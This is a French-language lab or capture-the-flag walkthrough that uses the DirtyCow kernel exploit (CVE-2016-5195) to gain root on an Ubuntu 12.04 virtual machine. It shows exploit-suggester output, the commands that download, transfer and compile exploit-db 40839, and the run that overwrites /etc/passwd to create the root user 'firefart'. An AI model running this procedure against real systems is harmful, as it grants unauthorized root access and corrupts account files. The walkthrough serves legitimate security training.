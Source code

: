 # DirtyCow 2

## On cherche a trouver des `exploit` dans notre machine

On lance [linux-exploit-suggester.sh](https://github.com/mzet-/linux-exploit-suggester/blob/master/linux-exploit-suggester.sh) pour avoir une idée des failles à explorer

```shell
$ cat exploit-suggested.txt

Available information:

Kernel version: 3.2.0
Architecture: i386
Distribution: ubuntu
Distribution version: 12.04
Additional checks (CONFIG_*, sysctl entries, custom Bash commands): performed
Package listing: from current OS

Searching among:

81 kernel space exploits
49 user space exploits

Possible Exploits:

[+] [CVE-2016-5195] dirtycow

   Details: https://github.com/dirtycow/dirtycow.github.io/wiki/VulnerabilityDetails
   Exposure: highly probable
   Tags: debian=7|8,RHEL=5{kernel:2.6.(18|24|33)-*},RHEL=6{kernel:2.6.32-*|3.(0|2|6|8|10).*|2.6.33.9-rt31},RHEL=7{kernel:3.10.0-*|4.2.0-0.21.el7},[ ubuntu=16.04|14.04|12.04 ]
   Download URL: https://www.exploit-db.com/download/40611
   Comments: For RHEL/CentOS see exact vulnerable versions here: https://access.redhat.com/sites/default/files/rh-cve-2016-5195_5.sh

[+] [CVE-2016-5195] dirtycow 2

   Details: https://github.com/dirtycow/dirtycow.github.io/wiki/VulnerabilityDetails
   Exposure: highly probable
   Tags: debian=7|8,RHEL=5|6|7,[ ubuntu=14.04|12.04 ],ubuntu=10.04{kernel:2.6.32-21-generic},ubuntu=16.04{kernel:4.4.0-21-generic}
   Download URL: https://www.exploit-db.com/download/40839
   ext-url: https://www.exploit-db.com/download/40847
   Comments: For RHEL/CentOS see exact vulnerable versions here: https://access.redhat.com/sites/default/files/rh-cve-2016-5195_5.sh
...
```

Apres quelque essais, on trouve que dirtycow 2 fonctionne parfaitement !

## Description

Cet `exploit` utilise comme base le `pokemon exploit of the dirtycow vulnerability` et génère automatiquement un nouveau mot de passe. L'utilisateur sera invité a entrer le nouveau mdp au lancement du binaire. Le fichier original `/etc/passwd` sera alors sauvegardé dans `/tmp/passwd.bak` et écrira par dessus l'utilisateur root. Après avoir lancé `l'exploit`, on devrait pouvoir se connecter à notre nouvel utilisateur.

Le nouvel utilisateur s'appellera `firefart`.

## Download exploit C file

[DirtyCow](https://www.exploit-db.com/download/40839)

## Process

On repart du `user Laurie` pour se connecter en `ssh`

```shell
$ ssh laurie@192.168.56.104 -p 22
```

### Host

```shell
$ wget https://www.exploit-db.com/download/40839 ; mv 40839 40839.c

$ scp 40839.c laurie@192.168.56.104:~/.
```

### VM

```
$ gcc -pthread -O2 40839.c -lcrypt

$ ./a.out
/etc/passwd successfully backed up to /tmp/passwd.bak
Please enter the new password:
Complete line:
firefart:fiw.I6FqpfXW.:0:0:pwned:/root:/bin/bash

mmap: b7fda000
madvise 0

ptrace 0
Done! Check /etc/passwd to see if the new user was created.
You can log in with the username 'firefart' and the password 'root'.


DON'T FORGET TO RESTORE! $ mv /tmp/passwd.bak /etc/passwd
Done! Check /etc/passwd to see if the new user was created.
You can log in with the username 'firefart' and the password 'root'.


DON'T FORGET TO RESTORE! $ mv /tmp/passwd.bak /etc/passwd

$ su firefart
Password:

firefart:$ id
uid=0(firefart) gid=0(root) groups=0(root)
```
